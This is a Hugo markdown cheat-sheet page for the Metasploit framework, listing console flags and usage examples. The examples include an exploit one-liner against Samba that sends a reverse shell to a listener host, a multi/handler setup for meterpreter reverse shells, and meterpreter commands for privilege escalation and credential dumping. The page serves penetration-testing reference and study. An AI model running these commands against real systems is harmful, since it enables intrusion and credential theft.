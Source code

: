 ```yaml
---
### The title for the content.
title : "Metasploit"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "metasploit"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "Metasploit description."
### The datetime assigned to this page.
date : 2020-03-10T16:33:38+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "metasploit"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
### a map of Front Matter keys whose values are passed down to the page’s descendants unless overwritten by self or a closer ancestor’s cascade. 
cascade:
    tags: ['Metasploit']
---
```


## Metasploit

### Install

```
https://github.com/rapid7/metasploit-framework/releases
```

### Usage

```bash
msfconsole [options]]
```

### Flags

```bash
Common options:
    -E, --environment ENVIRONMENT    Set Rails environment, defaults to RAIL_ENV environment variable or 'production'

Database options:
    -M, --migration-path DIRECTORY   Specify a directory containing additional DB migrations
    -n, --no-database                Disable database support
    -y, --yaml PATH                  Specify a YAML file containing database settings

Framework options:
    -c FILE                          Load the specified configuration file
    -v, -V, --version                Show version

Module options:
        --defer-module-loads         Defer module loading unless explicitly asked.
    -m, --module-path DIRECTORY      Load an additional module path

Console options:
    -a, --ask                        Ask before exiting Metasploit or accept 'exit -y'
    -H, --history-file FILE          Save command history to the specified file
    -L, --real-readline              Use the system Readline library instead of RbReadline
    -o, --output FILE                Output to the specified file
    -p, --plugin PLUGIN              Load a plugin on startup
    -q, --quiet                      Do not print the banner on startup
    -r, --resource FILE              Execute the specified resource file (- for stdin)
    -x, --execute-command COMMAND    Execute the specified console commands (use ; for multiples)
    -h, --help                       Show this message
```

### Examples

#### init database

```bash
msfdb init
```

#### create new workspace

```bash
workspace -a [name]
```

#### switch to workspace

```bash
workspace [name]
```

#### run commands without interactive shell

```bash
msfconsole -x "use exploit/multi/samba/usermap_script;\
set RHOST 172.16.194.172;\
set PAYLOAD cmd/unix/reverse;\
set LHOST 172.16.194.163;\
run"
```

#### Multi-handler for reverse shell

To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse_tcp payload,  

```bash
use exploit/multi/handler  
set payload windows/meterpreter/reverse_tcp  
set lhost <IP>  
set lport <PORT>  
set ExitOnSession false  
exploit -j
```

The -j option is to keep all the connected session in the background.  


##### netcat/bash reverse

```bash
set PAYLOAD linux/x86/shell/reverse_tcp
```

##### run in the background

```bash
run -j
```

#### Meterpreter

`getsystem`

`hashdump`

`load kiwi`

`creds_all`

### Also see

* [Github Project](https://github.com/rapid7/metasploit-framework)
* [metasploit-unleashed](https://www.offensive-security.com/metasploit-unleashed/)
